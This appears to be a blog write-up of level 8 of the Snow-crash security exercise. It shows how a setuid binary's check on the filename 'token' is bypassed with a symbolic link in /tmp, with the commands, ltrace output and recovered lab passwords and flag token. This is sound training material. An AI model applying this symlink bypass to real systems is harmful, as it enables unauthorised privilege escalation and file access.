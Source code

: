 ```yaml
---
title:  "Snow-crash Level08"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
categories: cyber-security
permalink: /cyber-security/snow-crash/
---
```


#### 1. The password of `Level08` is the token that got from `Level07`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level08 with the password we got from Level07 and try to put the command `ls`. We can see the files `Level08` and `token`. and try to `cat` and `execute`.

```bash
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ cat token
cat: token: Permission denied
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

We can see `cat: token: Permission denied` and `execute: ./level08 [file to read]`.

#### 3 . then, try to ltrace

```bash
level08@SnowCrash:~$ ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)        = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Same for the ltrace command, we need a another file to be read.

```bash
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ chmod +x token
chmod: changing permissions of `token': Operation not permitted
```

#### 4. So, since we don't have any access, let's create the `symbolic link` as we did in previous exercises.

```bash
level08@SnowCrash:~$ pwd
/home/user/level08
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/level08flag
level08@SnowCrash:~$ ./level08 /tmp/level08flag
quif5eloekouj29ke0vouxean
```

#### 5. So, we found our password! Let's put our password into flag08 for level09.

```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

#### 6. We got a toekn for level 09. 
```
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```